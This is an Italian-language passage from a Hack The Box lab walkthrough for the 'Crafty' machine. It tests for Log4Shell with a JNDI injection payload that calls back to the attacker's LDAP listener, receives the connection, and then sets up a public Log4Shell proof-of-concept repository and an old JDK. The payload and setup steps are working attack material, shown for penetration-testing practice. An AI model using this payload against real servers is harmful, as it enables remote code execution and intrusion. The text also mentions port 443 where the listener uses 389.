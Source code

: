**Prova di vulnerabilità**

Per verificarlo, invierò l'ascolto sulla porta TCP 389 (LDAP predefinita) con nc e quindi inserirò un payload che tenterà di contattare il mio host su 443:

`${jndi:ldap://10.10.14.6/test}`

Se c'è una connessione al mio host, è probabile che il server sia vulnerabile a Log4Shell. Al momento dell'invio, ottengo una connessione:

```shell-session
┌──(root㉿kali)-[/home/kali/htb/crafty]
└─# nc -lnvp 389 
Listening on 0.0.0.0 389 
Connection received on 10.10.11.249 49682 
0
```

Sembrebbe vulnerabile
### Log4Shell Exploit

Cercando il rete troviamo questo [poc](https://github.com/kozmer/log4j-shell-poc)
Lo scarichiamo e installiamo le dipendenze
```shell-session
┌──(root㉿kali)-[/home/kali/htb/crafty]
└─# git clone https://github.com/kozmer/log4j-shell-poc.git Cloning into 'log4j-shell-poc'... remote: Enumerating objects: 52, done. remote: Counting objects: 100% (12/12), done. remote: Compressing objects: 100% (12/12), done. remote: Total 52 (delta 0), reused 1 (delta 0), pack-reused 40 Receiving objects: 100% (52/52), 38.74 MiB | 44.42 MiB/s, done. Resolving deltas: 100% (7/7), done. 

┌──(root㉿kali)-[/home/kali/htb/crafty]
└─# cd log4j-shell-poc/ 

┌──(root㉿kali)-[/home/kali/htb/crafty/log4j-shell-poc]
└─# pip install -r requirements.txt 
Defaulting to user installation because normal site-packages is not writeable Requirement already satisfied: colorama in /usr/lib/python3/dist-packages (from -r requirements.txt (line 1)) (0.4.4) Collecting argparse Using cached argparse-1.4.0-py2.py3-none-any.whl (23 kB) Installing collected packages: argparse Successfully installed argparse-1.4.0
```

Ci sono anche istruzioni sul repository per scaricare uno specifico binario Java da questa pagina. Scaricherò jdk-8u20-linux-x64.tar.gz  lo estrarrerò:

```shell-session
┌──(root㉿kali)-[/home/kali/htb/crafty/log4j-shell-poc]
└─# tar xf jdk-8u20-linux-x64.tar.gz 

┌──(root㉿kali)-[/home/kali/htb/crafty/log4j-shell-poc]
└─# rm jdk-8u20-linux-x64.tar.gz 

┌──(root㉿kali)-[/home/kali/htb/crafty/log4j-shell-poc]
└─# ls 
Dockerfile jdk1.8.0_20 LICENSE poc.py README.md requirements.txt target vulnerable-application
```
